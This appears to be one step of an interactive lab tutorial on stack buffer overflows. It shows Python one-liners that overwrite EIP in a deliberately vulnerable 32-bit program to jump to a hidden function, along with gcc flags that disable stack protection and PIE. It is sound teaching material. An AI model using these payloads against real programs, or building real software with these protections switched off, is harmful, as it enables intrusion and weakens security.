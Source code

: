 # Leverage python for payload crafting 

## Install python

`apt install -y python python3 python-dev python3-dev python3-pip`{{execute}}

## python exploitation:

As a reminder:
- the secretHiddenFunction address is `\xd7\x92\x04\x08` in python
- The payload is `./vuln AAAAAAAAAAAAAAAABBBBCCCCDDDDEEEE` with EEEE to be replaced by the above address.

In python2 we can generate a payload with:

`python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xd7\x92\x04\x08')"`{{execute}}

The 28 characters are called the offset and could be any character. The next 4 bytes are used to overwrite the EIP and must point to the function we want to execute.

Let's try the exploit:

`./vuln \`python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xd7\x92\x04\x08')"\``{{execute}}

or 

`./vuln $(python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xd7\x92\x04\x08')")`{{execute}}

Et voila! we have successfully reached a piece of code which is never called, and we no longer have any segmentation fault. Which means that the signal handler is not a strong mitigation.

## What if the buffer size get too large?

Because our buffer size is only 16, it is quite easy to type by hand a larger sequence of character. But what if the buffer size is 2048, or 16384? even with copy-pasting it becomes tedious to crash the programme with a segmentation fault.

Let's modify the size of the buffer to 2048. We will use a command-line editor called vim (Feel free to use `nano` if you are not comfortable with `vim`). If you are stuck in vim, you can quit at any time by typing `<ESC>qa!`.

1. open the source file in vim: `vim ./vuln.c`{{execute}}
2. direct jump to the buffer size 16 by typing: `/16<ENTER>`
3. change the word (cw) under the cursor with the value 2048: `cw2048`
4. save and quit with: `<ESC>ZZ` or `<ESC>wq` (write then quit)

Recompile:

`gcc -m32 -O0 -fno-stack-protector -no-pie -z execstack  -o vuln vuln.c`{{execute}}

## generate a large payload 

`python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + 'E'*4 + 'F'*4)"`{{execute}}

`./vuln $(python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + 'E'*4 + 'F'*4)")`{{execute}}

`dmesg | tail -2`{{execute}}

`./vuln $(python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + '\xd7\x92\x04\x08')")`{{execute}}

